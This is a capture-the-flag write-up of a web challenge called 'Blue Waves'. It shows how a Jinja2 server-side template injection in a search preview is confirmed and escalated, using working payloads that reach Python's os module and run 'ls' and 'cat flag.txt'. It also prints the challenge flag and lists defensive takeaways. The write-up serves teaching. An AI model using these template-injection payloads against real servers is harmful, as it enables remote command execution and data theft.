





# Blue Waves — Server-Side Template Injection (SSTI)

## Category
Web

## Difficulty
Medium

---

## Description

**Blue Waves** is a web challenge that looks like a clean technical blog platform.
The challenge description gives a subtle hint:

> *Just understand the patterns*

This challenge hides a **Server-Side Template Injection (SSTI)** vulnerability inside the search feature.


---

## Application Overview

When visiting the website, we see a homepage listing several articles.



There is also a **Search** page, which allows users to search through articles.

---

## Initial Suspicion

Trying a normal search query like:

```
hello
```

We notice something interesting:

- The search results page **reflects our input**
- A **Preview** section displays our query exactly as we typed it



This is suspicious because reflected input may indicate template rendering.

---

## Confirming SSTI

A common way to test for SSTI is by injecting a simple arithmetic expression:

```
{{7*7}}
```

Instead of displaying the literal text, the page evaluates it and shows:

```
49
```



✅ **SSTI confirmed**

The application is rendering user input directly using a template engine (Jinja2).

---

## Understanding the Vulnerability (Behind the Scenes)

From the backend logic, the search result preview is rendered using something equivalent to:

```python
render_template_string(user_input)
```

This means:
- User input is treated as a **template**
- Any valid Jinja2 expression is executed server-side
- No sanitization or sandboxing is applied

This allows **arbitrary template execution**, leading to **Remote Code Execution (RCE)**.

---

## Listing Server Files

In Jinja2, we can access Python objects and modules.
A known payload to access the `os` module is:

```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

Submitting this payload in the search field reveals the server directory contents.



We immediately notice a file named:

```
flag.txt
```

---

## Reading the Flag

Now that we know the flag file exists, we simply read it:

```
{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}
```

The preview section displays the flag.



---

## Flag

```
SecurinetsISTIC{d0n7_3v4l_us3r_1nput_3sc4p3_1n574d}
```

---

## Key Takeaways

- Reflected input in templates is extremely dangerous
- SSTI can lead to full server compromise
- Jinja2 provides access to Python internals if not sandboxed
- `render_template_string()` should **never** be used with user input
- Always sanitize, escape, or strictly validate template data

---

## Conclusion

Blue Waves is a clean and educational challenge demonstrating how a small design mistake
in template rendering can lead to **critical security impact**.

A perfect example of why:
> **User input should never be treated as code.** 🌊🔥
